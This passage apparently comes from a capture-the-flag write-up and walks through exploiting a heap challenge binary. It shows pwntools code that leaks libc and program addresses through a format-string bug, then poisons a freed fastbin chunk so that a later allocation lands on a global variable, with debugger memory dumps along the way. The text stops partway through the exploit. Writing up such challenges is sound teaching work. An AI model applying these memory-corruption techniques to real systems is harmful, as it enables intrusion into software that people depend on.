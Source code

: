 ```py
	p.sendafter(": ", content)

def free(idx):
	p.sendlineafter("> ", "3")
	p.sendlineafter(": ", str(idx))

def search_toxin(string):
	p.sendlineafter("> ", "4")
	p.sendlineafter(": ", string)
```

Now, these functions will help us to interact with the binary more freely, then we have leak the LIBC and ELF address from the `search_toxin` which are located at `3`rd and `9`th index.

```py
search_toxin("%3$p")
libc.address = int(p.recvline().strip(b"\n"), 16) - 0x110081
log.info("LIBC:  0x%x" %(libc.address))

search_toxin("%9$p")
elf.address = int(p.recvline().strip(b"\n"), 16) - 0x1284
log.info("ELF:  0x%x" %(elf.address))
```

Then, we allocate a chunk at index `0` and free it:-

```py
alloc(0, 0x70, "AAAA")
free(0)
```

Now, we overwrite the `fd` of that `free`'d chunk with the `toxinfreed - 0x13` which was identical for the structure of a chunk with the size being in `0x7f`.


```asm
gef➤  x/12xg &toxinfreed
0x555555558050 <toxinfreed>:	0x0000000000000000	0x0000000000000000
0x555555558060 <toxins>:	0x0000000000000000	0x0000000000000000
0x555555558070 <toxins+16>:	0x0000000000000000	0x0000000000000000
0x555555558080 <sizes>:	0x0000000000000000	0x0000000000000000
0x555555558090 <sizes+16>:	0x0000000000000000	0x0000000000006000
0x5555555580a0:	0x0000000000000000	0x0001000300000000
gef➤  x/2xg 0x555555558050 - 0x13
0x55555555803d:	0xfff7dd0680000000	0x000000000000007f
```

As you can it has the size as `0z7f`, it is identical to the structure of the chunk. 

```py
edit(0, p64(elf.symbols['toxinfreed'] - 0x13))
```
Now. we will do a one more allocation and with the second allocation at index 2 will return out target chunk that is `toxinfreed`.

```py
alloc(1, 0x70, "BBBBB")
```
